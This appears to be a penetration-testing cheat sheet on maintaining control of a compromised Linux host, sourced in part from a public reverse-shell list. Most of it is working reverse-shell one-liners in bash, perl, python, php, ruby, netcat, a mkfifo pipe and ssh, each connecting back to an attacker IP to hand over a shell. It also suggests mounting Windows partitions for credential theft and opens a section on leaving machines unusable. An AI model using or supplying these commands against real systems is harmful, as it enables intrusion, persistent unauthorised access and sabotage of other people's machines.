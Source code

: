 # Maintaining control
## Reverse Shell
Starting list sourced from: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
* bash -i >& /dev/tcp/10.0.0.1/8080 0>&1 (No /dev/tcp on older Debians, but use nc, socat, TCL, awk or any interpreter like Python, and so on.).
* perl -e 'use Socket; $i="10.0.0.1"; $p=1234; socket(S,PF_INET, SOCK_STREAM, getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i)))){ open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh -i");};'
* python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(("10.0.0.1",1234)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
* php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
* ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i; exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)' nc -e /bin/sh 10.0.0.1 1234 # note need -l on some versions, and many does NOT support -e anymore
* rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
* xterm -display 10.0.0.1:1se
* Listener- Xnest :1
* Add permission to connect- xhost +victimIP
* ssh -NR 3333:localhost:22 user@yourhost
* nc -e /bin/sh 10.0.0.1 1234

Fun if Windows is present and accessible
If there is Windows installed and the logged-in user access level includes those Windows partition, attacker can mount them up and do a much deeper information gathering, credential theft and root-ing. Ntfs-3g is useful for mounting ntfs partitions read-write.
TODO: insert details on what to look for

Stuff to be sorted
# GOING TO MOVE EVERYTHING HERE FOR LEGIBILITY ONCE EDITING DIES DOWN

| Command | Output |
| ps aux | List of running processes |
| id | List current user and group along with user/group id |
| w | Show info about who is logged, what are they are doing |
| who -a | Print information about users |
| cat /dev/core > /dev/audio | |
| cat /dev/mem > /dev/audio | Makes a sound from the memory content. Usefulness of this??? (none, aside from pissing off the sysadmin, in the very unlikely case that the server has speakers and the legacy OSS driver) |
| sudo -p | allows the user to define what the password prompt will be (useful for fun customization with aliases or shell scripts) |

## Deleting and Destroying
(If it is necessary to leave the machine inaccessible or unusable)
Note that this tends to be quite evident (as opposed to a simple exploitation that might go unnoticed for some time, even forever), and will most surely get you into troubles.
